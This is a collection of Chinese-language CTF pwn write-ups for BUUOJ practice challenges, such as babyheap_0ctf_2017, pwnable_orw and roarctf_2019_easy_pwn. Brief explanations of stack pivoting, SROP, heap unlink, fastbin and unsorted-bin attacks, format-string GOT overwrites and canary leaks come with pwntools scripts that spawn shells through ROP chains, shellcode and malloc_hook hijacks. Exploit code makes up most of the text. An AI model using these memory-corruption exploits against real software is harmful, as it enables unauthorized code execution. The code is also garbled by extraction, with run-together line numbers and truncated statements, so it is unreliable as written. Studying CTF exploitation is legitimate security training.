



bjdctf_2020_babystack2 栈迁移 利用printf获取上个栈帧的ebp：printf遇到 \x00 就会截断，如果我们输入的内容正好把ebp前面的区域完全覆盖，就可以带出ebp。
上个栈帧的ebp(0xffffdo58)到输入s(0xffffd020)的距离是0x38。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 from pwn import *'linux' ,arch = 'i386' ,log_level = 'debug' )'./ciscn' )0x08048400 0x080484b8 b'a' *0x24 +b'bbbb' )'bbbb' )4 ))b'a' *4 +p32(system)+p32(0 )+p32(ebp_addr-0x28 )+b"/bin/sh" 0x28 ,b'\x00' )0x38 )+p32(leave_ret)
ciscn_2019_s_3 SROP sys_write(1u, buf, 0x30uLL) buf的长度为0x10，所以可以带出栈中的数据。减去offset 0x118得到buff的栈地址

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 from pwn import *'amd64' ,os='linux' ,log_level='debug' ,terminal = ['tmux' , 'splitw' , '-h' ])'./ci' )b'/bin/sh\x00' *2 +p64(0x4004ed ))0x20 )8 ))print (hex (addr))0x118 0 0 0x400517 b'/bin/sh\x00' *2 + p64(0x4004da ) + p64(0x400501 ) + bytes (frame)
babyheap_0ctf_2017 unsorted bin attack、fastbiin attack https://cloud.tencent.com/developer/article/1764339
思路：
首先使用堆溢出以及unsortedbin attack得到libc加载
申请5个 chunk，chunk0用于修改chunk1、2，chunk1、2通过free将chunk4带入fastbin，chunk3用于修改chunk4；
free chunk1、2，通过修改chunk0将chunk2，4加入fastbin，并通过chunk3修改chunk4大小（为了成功将chunk4从fastbin种申请出来）；
从fastbin申请出来chunk4，此是index=2，index2，size=0x10和index4，size=0x80指向同一地址；
将index4 size位还原0x91，free index4进入unsortedbin，fd、bk都指向main_arena + 0x58；
因为inde2指向index4所以，输出index2就可以得到main_arena + 0x58地址，通过偏移就可以算出libc基址；
此时堆情况如下，然后使用fastbin attack修改malloc_hook
重新申请index4，size 0x60，然后将其free进入fastbin，再次使用index2的指针向index4写入malloc_hook-0x23，将fake chunk加入fastbin；
1 readelf -s libc-2.23.so|grep malloc_hook
申请两次得到fake chunk，向fake chunk写入onegadget，实现劫持malloc；
执行malloc，实际执行onegadget。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from pwn import *'linux' , arch = 'amd64' , log_level = 'debug' , terminal = ['tmux' , 'splitw' , '-h' ])"node4.buuoj.cn" ,27332 )def allo (size ):"Command: " )str (1 ))"Size: " )str (size))def fill (idx,size,content ):"Command: " )str (2 ))"Index: " )str (idx))"Size: " )str (size))"Content: " )def free (idx ):"Command: " )str (3 ))"Index: " )str (idx))def dump (idx ):"Command: " )str (4 ))"Index: " )str (idx))0x10 )0x10 )0x10 )0x10 )0x80 )1 )2 )0 )*3 + p64(0x21 ) + p64(0 )*3 + p64(0x21 )0x80 ) 0 ,len (payload),payload)0 )*3 + p64(0x21 )3 ,len (payload),payload) 0x10 )0x10 )0 )*3 + p64(0x91 )3 ,len (payload),payload) 0x80 ) 4 ) 2 )'\x7f' )[-6 :]+b'\x00\x00' ) print (hex (content))0x3c4b78 print (hex (libc_base))0x60 ) 4 ) 0x3C4AED )2 ,len (payload),payload) 0x60 ) 0x60 ) b'a' *(0x23 -0x10 )0x4526a ) 6 ,len (payload),payload) 20 )
ez_pz_hackover_2016 栈溢出rop

1 2 3 4 5 6 7 8 9 from pwn import *'linux' , arch = 'i386' , log_level = 'debug' )"node4.buuoj.cn" ,29156 )'0x' )int (p.recv(8 ),16 )b'crashme\x00' +b'M' *0x12 + p32(stack_addr-0x1c ) + asm(shellcraft.sh())
pwnable_orw ORW、seccomp ORW类题目是指程序开了沙箱保护，禁用了一些函数的调用（如 execve等），使得我们并不能正常get shell，只能通过ROP的方式调用open, read, write的来读取并打印flag内容。
1 2 seccomp 是 secure computing 的缩写，其是 Linux kernel 从2 .6 .23 版本引入的一种简洁的 sandboxing 机制。主要功能是限制直接通过syscall去调用某些系统函数。最初，Seccomp 只允许使用read、 write、_exit、sigreturn 4 个系统调用，一旦调用其他系统调用时，内核就会发送 SIGKILL 信号终止进程。seccomp 是通过prctl系统调用来进行设置的
安装seccomp-tools 查看seccomp。使用apt-get安装ruby版本太低可能导致安装失败，建议从ruby官网 编译安装。
1 2 3 4 5 6 7 8 9 tar -zxvf ruby-3.0.0.tar# sudo gem install one_gadget
1 2 3 4 5 6 7 8 9 10 11 12 from pwn import *"node4.buuoj.cn" ,28070 )open ('/flag' )'eax' ,'esp' ,100 )1 ,'esp' ,100 )"shellcode" )
[Black Watch 入群题]PWN 栈迁移 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 from pwn import *from LibcSearcher import *'linux' , arch='i386' , log_level='debug' )"node4.buuoj.cn" ,28097 )'./spwn' )'write' ]'write' ]"What is your name?" )b'a' *4 +p32(write_plt)+p32(0x8048513 )+p32(1 )+p32(write_got)+p32(4 ))"What do you want to say?" )b'a' *0x18 +p32(0x0804A300 )+p32(0x08048408 )) 4 ))hex (write_addr))'write' ,write_addr)'write' )'system' )'str_bin_sh' )hex (system))hex (sh))"What is your name?" )b'a' *4 +p32(system)+p32(0 )+p32(sh))"What do you want to say?" )b'a' *0x18 +p32(0x0804A300 )+p32(0x08048408 ))
[ZJCTF 2019]EasyHeap unlink 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 from pwn import *'linux' , arch='i386' , log_level='debug' )'node4.buuoj.cn' ,26555 )'./easyheap' )0x6020E0 'free' ]'system' ]def creat (size,content ):"Your choice :" )'1' )"Size of Heap :" )str (size))"Content of heap:" )def edit (index,size,content ):"Your choice :" )'2' )"Index :" )str (index))"Size of Heap : " )str (size))"Content of heap : " )def dele (index ):"Your choice :" )'3' )"Index :" )str (index))0x80 ,'aaaa' )0x80 ,'aaaa' )0x10 ,'/bin/sh\x00' )0 )+p64(0x81 )+p64(heaparray-0x18 )+p64(heaparray-0x10 )0x80 ,b'a' )0x80 )+p64(0x90 )0 ,0x90 ,palyload)1 )0 ,0x20 ,p64(0 )*3 +p64(free_got))0 ,8 ,p64(system_plt))2 )
hitcontraining_uaf 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 from pwn import *'linux' , arch = 'i386' , log_level = 'debug' , terminal = ['tmux' , 'splitw' , '-h' ])'./hacknote' )def add (size,content ):'choice :' ,'1' )'Note size :' ,str (size))'Content :' ,content)def delete (idx ):'choice :' ,'2' )'Index :' ,str (idx))def printf (idx ):'choice :' ,'3' )'Index :' ,str (idx))0x8048945 0x30 ,'aaaa' ) 0x30 ,'bbbb' ) 0 )1 ) 8 ,p32(shell_addr)) 0 )
inndy_rop 静态编译不需要调用libc，gets()没有限制长度，找到可以一键getshell的rop片段组合加上偏移即可。
1 ROPgadget --binary rop --ropchain
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 from pwn import *'linux' , arch='i386' , log_level='debug' )'./rop' )from struct import packb'a' *0x10 '<I' , 0x0806ecda ) '<I' , 0x080ea060 ) '<I' , 0x080b8016 ) b'/bin' '<I' , 0x0805466b ) '<I' , 0x0806ecda ) '<I' , 0x080ea064 ) '<I' , 0x080b8016 ) b'//sh' '<I' , 0x0805466b ) '<I' , 0x0806ecda ) '<I' , 0x080ea068 ) '<I' , 0x080492d3 ) '<I' , 0x0805466b ) '<I' , 0x080481c9 ) '<I' , 0x080ea060 ) '<I' , 0x080de769 ) '<I' , 0x080ea068 ) '<I' , 0x0806ecda ) '<I' , 0x080ea068 ) '<I' , 0x080492d3 ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0807a66f ) '<I' , 0x0806c943 )
cmcc_simplerop int 0x80 虽然同上都是静态编译，但是这次限制了输入长度，也没有system函数。但是使用ROPgadget发现int 0x80，可以借助int80(11,”/bin/sh”,null,null)执行。
https://blog.csdn.net/xiaominthere/article/details/17287965
1 2 cat /usr/i nclude/x86_64-linux-gnu/ asm/unistd_32.h
1 2 3 4 5 6 7 8 9 10 11 12 13 14 from pwn import *"node4.buuoj.cn" ,29705 )0x80493e1 0x80bae06 0x0806CD50 0x080EB584 0x0806e850 b'a' *0x20 + p32(read_addr) + p32(pop_edx_ecx_ebx) + p32(0 ) + p32(binsh_addr) + p32(0x8 ) 0xb ) + p32(pop_edx_ecx_ebx) + p32(0 ) + p32(0 ) + p32(binsh_addr) + p32(int_addr)'/bin/sh\x00' )
[ZJCTF 2019]Login 反汇编和汇编 https://www.cnblogs.com/Theffth-blog/p/12674951.html
1 2 3 4 5 6 7 8 from pwn import *"node4.buuoj.cn" ,27382 )'username: ' ,'admin' )b'2jctf_pa5sw0rd' ).ljust(0x60 -0x18 ,b'\x00' )+p64(0x400e88 )'password: ' ,payload)
wustctf2020_closed 这个题用两次close关闭了1和2，对应的文件描述符就是标准输出和标准错误输出。也就是说其实已经到执行system了，只是关闭输出后，无法查看回显。所以我们可以把标准输出重定向到标准输入。 https://blog.csdn.net/xirenwang/article/details/104139866
axb_2019_fmt32 格式化字符串-劫持got表、fmtstr_payload 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 from pwn import *'linux' , arch = 'i386' , log_level = 'debug' )"./fmt32" ,env={"LD_PRELOAD" :"./libc-2.23.so" })"./fmt32" )"./libc-2.23.so" )'read' ]b'a' + p32(read_got) + b'%8$s' 'me:' , payload)18 )[-4 :])'read' ]0x3a80c b'a' + fmtstr_payload(8 , {read_got: one_gadget},numbwritten = 0xa ) 'me:' , payload)
pwnable_start 汇编shellcode、int 0x80
1 2 3 4 5 6 7 8 9 10 11 12 13 14 from pwn import *"i386" ,os="linux" ,log_level="debug" )'./start' )b"A" * 0x14 + p32(0x08048087 )":" ,payload)4 ))hex (stack_addr))"xor ecx,ecx;xor edx,edx ; push edx;push 0x68732f6e;push 0x69622f2f; mov ebx,esp;mov eax,0xb;int 0x80 " )b'a' *0x14 +p32(stack_addr+0x14 )+shellcode
ciscn_2019_s_9 汇编shellcode
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from pwn import *'debug' ,arch='i386' ,os='linux' )'node4.buuoj.cn' ,29280 )0x8048554 ''' xor eax,eax xor edx,edx push edx push 0x68732f2f push 0x6e69622f mov ebx,esp xor ecx,ecx mov al,0xB int 0x80 ''' print (len (shellcode)) 0x24 ,b'\x00' )+p32(jump_esp)"sub esp,40;call esp" )
others_babystack canary泄漏
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 from pwn import *from LibcSearcher import *"amd64" ,os="linux" ,log_level="debug" )"node4.buuoj.cn" ,25780 )0x400a93 './babystack' )'puts' ]'puts' ]0x400908 ">>" ,'1' )b"a" *0x88 )">>" ,'2' )'a\n' )7 ).rjust(8 ,b'\x00' ))print (hex (canary))">>" ,'1' )b"a" *0x88 +p64(canary)+b'a' *8 +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr))'>>' ,'3' )6 ).ljust(8 ,b'\x00' ))'puts' ,puts_addr)'puts' )'system' )'str_bin_sh' )b'a' *(0x90 -0x8 )+p64(canary)+b'b' *0x8 '>>' ,'1' )'>>' ,'3' )
ciscn_2019_n_3 UAF 每次create(new)会产生两块chunk(chunk0、chunk1)，申请两次(chunk0-3)，全部free；再次申请指定大小，将chunk0、chunk2申请出来，此时chunk0作为数据可写。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 from pwn import *'i386' ,os='linux' ,log_level='debug' )'tmux' , 'splitw' , '-h' ]"./ciscn" )"./ciscn" )'system' ]def new (num,tp,length,value ):"CNote > " ,"1" )"Index > " ,str (num))"Type > " ,str (tp))"Length > " ,str (length))"Value > " ,value)def delete (num ):"CNote > " ,"2" )"Index > " ,str (num))def show (num ):"CNote > " ,"3" )"Index > " ,str (num))0 ,2 ,0x30 ,"aaaa" )1 ,2 ,0x30 ,"aaaa" )0 )1 )b'bash' + p32(system_addr)2 ,2 ,0xc ,payload)0 )
gyctf_2020_borrowstack 栈迁移 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 from pwn import *'amd64' ,os='linux' ,log_level='debug' )"node4.buuoj.cn" ,26941 )'./stack' )'./libc-2.23.so' )0x400703 0x400626 0x4526a 'puts' ]'puts' ]"want\n" )b'a' *0x60 +p64(0x601080 +0xa0 -8 )+p64(0x400699 )) "now!\n" )b'a' *0xa0 +p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main))1 ].ljust(8 ,b'\x00' ))hex (puts_addr))'puts' ]0x4526a "want\n" )b'a' *0x60 +b'a' *8 +p64(one_gadget))"now!\n" )b'a' )
hitcontraining_heapcreator off-by-one、chunk overlap 
利用 off-by-one 漏洞覆盖下一个 chunk 的 size 字段，从而构造伪造的 chunk 大小，然后 free 加入fastbin；
从 fastbin 中申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针；
通过show 泄漏libc，进一步修改free的got表地址，实现got表劫持。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 from pwn import *'linux' , arch = 'amd64' , log_level = 'debug' )'./heapcreator' ,env={"LD_PRELOAD" :"./libc-2.23.so" })'./heapcreator' )'./libc-2.23.so' )def create (size,content ):':' )'1' )'Heap : ' )str (size))'heap:' )def edit (idx,content ):'choice :' )'2' )' :' )str (idx))'heap :' )def show (idx ):'choice :' )'3' )' :' )str (idx))def delete (idx ):'choice :' )'4' )' :' )str (idx))0x18 ,'aaaa' ) 0x10 ,'bbbb' ) 0x10 ,'cccc' ) 0 ,b'/bin/sh\x00' +p64(0 )*2 +b'\x81' ) 1 )0x70 ,p64(0 )*8 +p64(0x8 )+p64(elf.got['free' ])) 2 )'\x7f' )[-6 :].ljust(8 ,b'\x00' )) 'free_addr: ' +hex (free_addr))'free' ]'system' ]'system_addr: ' +hex (system_addr))2 ,p64(system_addr)) 0 )
hitcon2014_stkof unlink、栈溢出 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 from pwn import *"./stkof" ,env={"LD_PRELOAD" :"./libc-2.23.so" })"./stkof" )"./libc-2.23.so" )'puts' ]'puts' ]'free' ]def add (size ):'1' )str (size))'OK\n' )def edit (idx,size,content ):'2' )str (idx))str (size))'OK\n' )def delete (idx ):'3' )str (idx))0x100 ) 0x20 ) 0x80 ) 0x602150 0 )+p64(0x21 )+p64(ptr-0x18 )+p64(ptr-0x10 )+p64(0x20 )+p64(0x90 )2 ,len (payload),payload) 3 ) 'OK' )0 )+p64(0 )+p64(free)+p64(ptr-0x18 )+p64(puts_got)2 ,len (payload),payload)1 ,8 ,p64(puts_plt)) 3 ) 6 ).ljust(8 ,b'\x00' ))print (hex (puts_addr))'puts' ] 'OK' )'system' ]0 )+p64(0 )+p64(free)+p64(ptr-0x18 )+p64(ptr+0x10 )+b"/bin/sh" 2 ,len (payload),payload)1 ,8 ,p64(system_addr)) 3 )
roarctf_2019_easy_pwn⭐ off-by-one、chunk overlap、unsorted bin attack、fastbin attack
步骤总结：
off-by-one实现chunk overlap，通过操作chunk1 可以操作chunk2；
free chunk2进入unsorted bin，通过show chunk1 得到main_arena+88地址，泄漏libc；
申请chunk2 0x80并再次free 进入fastbin，通过edit chunk1将包含malloc_hook的fake chunk加入fatbin；
两次申请后得到fake chunk，修改malloc_hook为onegadget。
注意：每次free fake chunk会检查下一个chunk的prev_size、size
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 from pwn import * "./easy_pwn" ,env={"LD_PRELOAD" :"./libc-2.23-64.so" })"./easy_pwn" )"libc-2.23-64.so" ) def menu (idx ):"choice: " ,str (idx))def add (size ):1 )"size: " ,str (size))def edit (idx,size,content ):2 )"index: " ,str (idx))"size: " ,str (size))"content: " ,content)def delete (idx ):3 )"index: " ,str (idx))def show (idx ):4 )"index: " ,str (idx))0x18 ) 0x10 ) 0x90 ) 0x10 ) b"a" *0x10 + p64(0x20 ) + p8(0xa1 )0 ,0x18 +10 ,payload) 0 )*0xe + p64(0xa0 ) + p64(0x21 )2 ,0x80 ,payload) 1 )0x90 ) 0 )*3 + p64(0xa1 )1 ,0x20 ,payload) 2 ) 1 )b"\x7f" )[-6 :].ljust(8 , b"\x00" )) - 0x3c4b78 "__malloc_hook" ] + libc_base"realloc" ] + libc_base0x80 ) 0 )*3 +p64(0x71 )+p64(0 )*12 + p64(0x70 ) + p64(0x21 )1 ,0x90 ,payload) 2 ) 0 )*3 + p64(0x71 ) + p64(malloc_hook - 0x23 )*2 1 ,0x30 ,payload)0x60 )0x60 ) 0xf1147 b"a" *11 + p64(one_gadget) + p64(realloc+4 ) 4 ,27 ,payload)0x60 )
通过 realloc_hook 调整栈帧使 onegadget 生效，将 malloc_hook 劫持为 realloc ，realloc_hook 劫持为 onegadget ，实际运行顺序：
1 malloc ->malloc_hook ->realloc ->realloc_hook ->
原理：realloc函数一开始有很多的 push ，realloc 函数先执行 push 压栈，然后再跳转执行 realloc_hook 存储的函数。我们就是利用这些 push 调整栈帧。push 的数量发生变化会影响 rsp 的地址（一个 push ，rsp 就会向前移动一个内存单元），这样就可以控制 rsp 的取值，从而满足 onegadget 的执行条件。
https://blog.csdn.net/Maxmalloc/article/details/102535427